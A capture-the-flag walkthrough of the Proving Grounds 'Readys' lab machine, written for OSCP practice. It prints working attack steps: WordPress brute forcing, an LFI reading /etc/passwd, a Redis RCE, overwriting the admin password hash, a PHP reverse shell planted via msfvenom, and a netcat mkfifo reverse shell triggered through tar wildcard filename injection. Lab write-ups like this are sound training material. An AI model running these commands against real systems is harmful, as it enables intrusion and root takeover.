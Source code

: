 ```yaml
---
title: Readys Walkthrough - Proving grounds
tags: Redis Wildcard WordPress
categories: Linux
---
```

In this entry I will solve PG's Readys machine. It is an Linux machine in the [TJNull](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview) list. My purpose in sharing this post is to prepare for OSCP exam. It is also to show you the way if you are in trouble. Please try to understand each step and take notes.

# Port and service enum

`nmap -sC -sV -p22,80,6379 192.168.223.166 -Pn -o targeted.txt`

![c5391e4051b28caa4a2edecf56afeb50.png](/assets/img/screenshots/Readys/c5391e4051b28caa4a2edecf56afeb50.png234)

By visiting http[:]//192.168.223.166/ I find wordpress running so I run wpscan.

## Wordpress enumeration

`wpscan -e --url http[:]//192.168.223.166/`

![6b16ef438cdc9c202a84aab24c57591c.png](/assets/img/screenshots/Readys/6b16ef438cdc9c202a84aab24c57591c.png)

The website discloses the admin user. I try to bruteforce the user runing wpscan

`wpscan -e --url http[:]//192.168.223.166/wp-login.php -U admin -P /usr/share/wordlists/rockyou.txt`

## Redis enumeration

While the attack is running I check redis, I try to connect and get some info but authentication is required

`redis-cli -h 192.168.223.166`

![eae720747869812f3e7085d2ea0789d1.png](/assets/img/screenshots/Readys/eae720747869812f3e7085d2ea0789d1.png)

## Back to WP

Going back to the WordPress site, inspecting the source code I find SiteEditor plugin.

![6076885f10b4dcfbd3a4a4fa8223dc2f.png](/assets/img/screenshots/Readys/6076885f10b4dcfbd3a4a4fa8223dc2f.png)

I google for any exploit and I find a possible LFI https://www.exploit-db.com/exploits/44340

`[http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax\_shortcode\_pattern.php?ajax_path=/etc/passwd](http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax%5C_shortcode%5C_pattern.php?ajax_path=/etc/passwd)`

![768b40cdbb003c2ea7b4e4fdace55e0e.png](/assets/img/screenshots/Readys/768b40cdbb003c2ea7b4e4fdace55e0e.png)

## Back to redis

As redis is running, I try to read redis configuration file, under /etc/redis https://stackoverflow.com/questions/32284494/where-is-the-data-directory-in-redis.

`[http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax\_shortcode\_pattern.php?ajax_path=/etc/redis/redis.conf ](http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax%5C_shortcode%5C_pattern.php?ajax_path=/etc/redis/redis.conf )`


I find a possible username for Redis service

![d744357582946f7c99ae541cf13d1163.png](/assets/img/screenshots/Readys/d744357582946f7c99ae541cf13d1163.png)

By typing `AUTH Ready4Redis?` I  get the Redis version: 5.0.14.

![532c82325e1499468947b4b2d704e4bd.png](/assets/img/screenshots/Readys/532c82325e1499468947b4b2d704e4bd.png)

# Getting a shell

After googling for the version  I came out that this version is vulnerable to RCE . In this case I use the following [exploit](https://github.com/n0b0dyCN/redis-rogue-server). If fails try again :)

![7c570a5c9b43f3201629238e63a2bbf6.png](/assets/img/screenshots/Readys/7c570a5c9b43f3201629238e63a2bbf6.png)

I get a TTY through `python3 -c "import pty; pty.spawn('/bin/bash')".` After that I search for the mysql database credentials in `/var/www/html/wp-config.php`

![63258e92a72d7fe42dd95cb11f310676.png](/assets/img/screenshots/Readys/63258e92a72d7fe42dd95cb11f310676.png)

# MySQL

I connect to mysql and then I dump admin's credentials:

`mysql -u karl -p` Then paste the password found on wp-config.php

`show databases;`

`use wordpress;`

`select * from wp_users;`

![569b714daa20fc604f40c8e724b95821.png](/assets/img/screenshots/Readys/569b714daa20fc604f40c8e724b95821.png)
I try to crack the hash but I do not get any result, so I update admin's password in mysql databse, for that I use [wodpress hash generator](https://www.useotools.com/wordpress-password-hash-generator/.) tool

![bf64b842a1784c3b54a9d96863a1e8a9.png](/assets/img/screenshots/Readys/bf64b842a1784c3b54a9d96863a1e8a9.png)

By typing the desired password, the tool creates the mysql command to update the user's password. **Remember to rename your_user_name by 'admin' and add ";" **

``UPDATE `wp_users` SET `user_pass` = '``$P$`BxLKwoTitAjOYxf8iHcDrx0Z3ksN8v/' WHERE user_login = 'admin';`

![8228a5ec0cb9527c65914d3086843920.png](/assets/img/screenshots/Readys/8228a5ec0cb9527c65914d3086843920.png)

# WordPress Exploitation

After that I log in to the WordPress admin portal, with admin:admin

Go to Appearance -->Theme editor. (I am using twentytwenty template)

![4748cfa6680b70d337cf2ec9c3839b69.png](/assets/img/screenshots/Readys/4748cfa6680b70d337cf2ec9c3839b69.png)

Edit 404.php file and copy [pentestmonkey's reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) or generate one with msfvenom:

msfvenom -p php/reverse_php LHOST=192.168.45.159 LPORT=88 -f raw > reverse.php

Then trigger the exploit by visiting `[http[:]//192.168.223.166/wp-content/themes/twentytwenty/404.php](http[:]//192.168.223.166/wp-content/themes/twentytwenty/404.php)`

# Privilege Escalation

After getting the shell I check crontab and a backup.sh file is running.

![6d43ef534744f360c62594fb2eb4963b.png](/assets/img/screenshots/Readys/6d43ef534744f360c62594fb2eb4963b.png)

Reading the backup file is seems that the script uses "tar" command

![f38f9eb8b8230c5bc6e76be24955b121.png](/assets/img/screenshots/Readys/f38f9eb8b8230c5bc6e76be24955b121.png)

### Wildcard for Privilege Escalation

The tar command in that script is using a wildcard to backup all files

First, I will create a reverse shell called "shell.sh" using netcat

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc 10.10.10.10 4445 >/tmp/f" > shell.sh`

The following commands will create two empty files with the names: “–checkpoint-action=exec=sh shell.sh” and “–checkpoint=1”. These file names will be interpreted by Tar as switches when Tar attempts to bundle them. Once –checkpoint=1 is invoked tar will look for any possible actions to take. In this case that action will be to execute “sh shell.sh”.

`echo "" > "--checkpoint-action=exec=sh shell.sh"`

`echo "" > --checkpoint=1`

Finally, a netcat listener is created on the Kali machine on port 4445. Since the cronjob on the victim machine runs every two minutes the netcat listener will receive a connection within that amount of time and then spawn a shell as the root user.

Wait to the crontab and get the shell as root

![ef8bce19d64b5cc79ead44d0d007ed59.png](/assets/img/screenshots/Readys/ef8bce19d64b5cc79ead44d0d007ed59.png)

Pwn3d! :D
